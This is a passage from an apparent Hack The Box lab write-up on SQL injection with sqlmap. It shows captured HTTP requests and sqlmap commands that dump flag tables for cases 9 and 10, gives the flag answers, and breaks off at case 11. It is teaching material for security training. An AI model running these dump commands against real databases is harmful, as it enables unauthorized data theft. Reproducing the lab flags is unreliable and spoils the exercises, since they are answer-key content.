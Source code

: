 Now we randomize the uid parameter: 

```bash
sqlmap -r r9 --dump -T flag9 --randomize=uid  --batch
```

Results: HTB{700_much_r4nd0mn355_f0r_my_74573}


**What's the contents of table flag10? (Case #10)**

We capture the request and save under name r10:

```bash
POST /case10.php HTTP/1.1
Host: 94.237.52.110:38973
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Origin: http://94.237.52.110:38973
Connection: keep-alive
Referer: http://94.237.52.110:38973/case10.php
Cookie: PHPSESSID=lk2ocjdbcss24spch123ethmn5
Upgrade-Insecure-Requests: 1

id=1
```

We just need to indicate the vulnerable parameter:

```bash
sqlmap -r r10 --dump -T flag10 -p id --batch
```

Results: HTB{y37_4n07h3r_r4nd0m1z3}


**What's the contents of table flag11? (Case #11)**

We capture the request and save under name r11:

```bash
GET /case11.php?id=1 HTTP/1.1
Host: 94.237.52.110:38973
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.52.110:38973/case11.php
Cookie: PHPSESSID=lk2ocjdbcss24spch123ethmn5
Upgrade-Insecure-Requests: 1


```
